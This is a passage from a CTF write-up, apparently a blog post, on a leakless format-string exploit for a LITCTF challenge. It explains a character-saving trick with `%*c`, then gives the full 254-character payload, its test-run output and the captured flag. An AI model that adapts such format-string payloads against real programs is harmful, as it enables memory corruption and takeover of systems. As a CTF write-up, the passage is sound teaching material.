 It's a byte too long. (two bytes, actually, because `fgets` will require the last byte to be a null byte)

After contemplating printing the stack address only 8 times total, with 1/2 of the success rate of the full payload, and just hoping to get lucky, I realized that there is one more optimization that I can make.

#### Format string golf
Remember how we used index 74 to store the byte that we want to print with `%*c`? This is done with a purpose. Before we use `%*74$c`, we are on argument number 73 with the `%hhn`. We can just use `%*c` to get the 74th argument instead of the positional `%*74$c` for our first time we print it, saving us three characters! By doing this, we get our final payload, which is 254 characters long:

```
%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%64949c%*c%c%c%hn%c%c%c%c%c%c%c%545c%hn%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%hhn%*c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%8c%75$hhn
```

Running this against the checker program, we get around 60-70 passes each time, consistently!

```
Payload: %c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%64949c%*c%c%c%hn%c%c%c%c%c%c%c%545c%hn%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%hhn%*c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%8c%75$hhn
100%|█████████████████████████████████████████████████████████████████████████████████████████████████████| 150/150 [02:16<00:00,  1.10it/s]
Total: 150 Passed: 66
CONSISTENT ENOUGH FOR ME :D
LITCTF{FLAG}
```

Running this on the remote server gives us the flag: `LITCTF{maybe_this_is_the_format_string_to_end_all_format_strings?}`

This was overall one of the coolest format string challenges that I have seen! Thanks to JoshL for creating it.  There were a lot of clever tricks being used, and I think that leakless exploits are also very cool. 

But still, I think this meme applies...

![fmtstr.png](/blog/img/fmtstr.png)
